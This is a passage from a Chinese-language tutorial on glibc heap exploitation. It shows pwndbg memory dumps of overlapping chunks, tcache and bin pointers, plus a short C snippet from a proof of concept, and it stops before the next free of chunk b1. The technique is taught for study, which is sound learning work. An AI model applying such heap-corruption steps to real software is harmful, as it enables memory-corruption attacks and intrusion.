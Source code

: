 ```c
0x555555758100:	0x0000000000000000	0x0000000000000061 #remainder(free-unsortedbin)
0x555555758110:	0x00007ffff7dcdca0	0x00007ffff7dcdca0
......
0x555555758160:	0x0000000000000060	0x0000000000000000
0x555555758170:	0x0000000000000a10	0x0000000000000510 #c(malloc)
......
0x555555758680:	0x0000000000000000	0x0000000000000111 #barrier(malloc)
......
0x555555758790:	0x0000000000000000	0x000000000001f871 #top_chunk
......
0x5555557588f0:	0x0000000000000000	0x0000000000000000
pwndbg>
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1620133527780-6c006649-827b-49e5-aa3c-9129f400f66f.png)

同样，这里gdb的heap出现了问题，这里不管他。为了方便查看，接下来的POC代码对b2堆块进行填充：

```c
	memset(b2,'B',0x480);
	printf("Current b2 content:\n%s\n",b2);
```

```c
pwndbg> x/800gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
......
0x555555757250:	0x0000000000000000	0x0000000000000511 #a(malloc)
......
0x555555757760:	0x0000000000000000	0x0000000000000511 #b1(malloc)
0x555555757770:	0x00007ffff7dce210	0x00007ffff7dce210 #unsortedbin指针不会被清空
0x555555757780:	0x0000555555757760	0x0000555555757760 #largebin指针不会清空
......
0x555555757c70:	0x0000000000000000	0x0000000000000491 #b2(malloc)
0x555555757c80:	0x4242424242424242	0x4242424242424242 #填充
0x555555757c90:	0x4242424242424242	0x4242424242424242 #填充
......
0x5555557580f0:	0x4242424242424242	0x4242424242424242 #填充
0x555555758100:	0x0000000000000000	0x0000000000000061 #remainder(free-unsortedbin)
0x555555758110:	0x00007ffff7dcdca0	0x00007ffff7dcdca0
......
0x555555758160:	0x0000000000000060	0x0000000000000000
0x555555758170:	0x0000000000000a10	0x0000000000000510 #c(malloc)
......
0x555555758680:	0x0000000000000000	0x0000000000000111 #barrier(malloc)
......
0x555555758790:	0x0000000000000000	0x000000000001f871 #top_chunk
......
0x5555557588f0:	0x0000000000000000	0x0000000000000000
pwndbg>
```

接下来我们对申请的b1堆块再次进行free：
